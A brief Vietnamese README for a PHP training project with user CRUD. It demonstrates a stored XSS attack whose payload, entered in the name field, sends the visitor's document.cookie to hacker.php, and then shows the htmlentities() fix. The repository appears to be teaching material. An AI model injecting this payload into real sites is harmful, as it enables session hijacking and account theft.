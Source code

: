 # Cách tấn công

- Ấn vào Add new user -> phần name điền như sau -> `<script>window.location.href = "hacker.php?cookie=" + document.cookie</script>` -> Submit

# Khắc phục bị tấn công

- Thêm `htmlentities()` vào khi xuất value ra table -> VD: `<?php echo htmlentities($user['name'])?>`

# php-training

- Repository: https://github.com/tailieuweb/training-php

## System requirements

- Apache: 2.4
- MySQL: 5.7 ; MariaDB: 10.x
- PHP: 7.x, 8.x
- Wamp/Xampp

# Features

- CRUD user
